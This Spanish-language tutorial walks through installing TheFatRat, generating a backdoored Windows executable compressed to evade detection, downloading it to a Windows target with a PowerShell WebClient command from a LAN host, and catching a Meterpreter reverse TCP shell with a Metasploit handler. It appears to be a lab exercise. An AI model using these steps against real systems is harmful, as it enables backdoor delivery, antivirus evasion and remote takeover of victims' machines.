

TheFatRat
Es un framework de vulneración de defensas bastante popular.
https://github.com/screetsec/TheFatRat
Esto indica que es algo contraproducente porque es más conocido y posiblemente se parcheen rápido.
Se basa o toma fundamento en otros frameworks antiguos ya conocidos como Veil-Framework, Shelter, Unicorn, etc...
git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh && ./setup.sh
Si queremos actualizarlo
cd TheFatRat
./update && chmod +x setup.sh && ./setup.sh
Vamos aceptando y seleccionando las instalaciones de los paquetes necesarios que son bastantes.
Podemos modificar el directorio y crear un acceso directo.
sudo fatrat
Con esta herramienta podremos generar nuevos binarios con backdoors, crear backdoors en binarios legítimos o aplicaciones, paquetes debian... una buena cantidad de herramientas.
Vamos a probar la 2
Seleccionamos 2

Esto nos creara dos binarios uno normal y otro comprimido para que sea menos detectable.
sudo cp /root/Fatrat_Generated/Powerfull-fud.exe Desktop
Lo llevamos al escritorio y a la máquina windows.
(New-Object System.NET.WebClient).DownloadFile("http://192.168.20.129:8000/Powerfull-fud.exe", "FatRat.exe")
En kali :
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set lhost 192.168.20.130
set lport 5555
exploit
